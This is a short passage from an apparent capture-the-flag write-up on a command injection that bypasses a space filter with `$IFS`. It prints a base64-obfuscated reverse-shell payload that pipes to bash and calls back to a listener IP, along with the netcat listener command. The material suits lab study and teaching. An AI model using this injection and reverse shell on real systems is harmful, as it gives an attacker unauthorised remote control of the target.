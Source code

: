 This one was an interesting command injection! I learned about `$IFS` and how you can leverage it as a white [space](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md#bypass-without-space)character. And we know we need spaces because we received an error.

![image11](/assets/img/20230928161947.png)

After adding the `$IFS`...

![image10](/assets/img/20230928162049.png)

We got a successful command injection! We can now try to get a reverse shell. 

##### Explaining the Reverse Shell

```bash 
;echo$IFS"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjMvOTAwMSAwPiYx"|base64$IFS-d$IFS|bash;
```

This is your basic base64 encoded reverse shell: `/bin/bash -i >& /dev/tcp/<IP ADDRESS>/<PORT> 0>&1`. What happened is that I couldn't use the "&" in the payload, so I had to encoded.  Make suure you start your netcat listener to catch the shell `nc -lvnp 9001`.

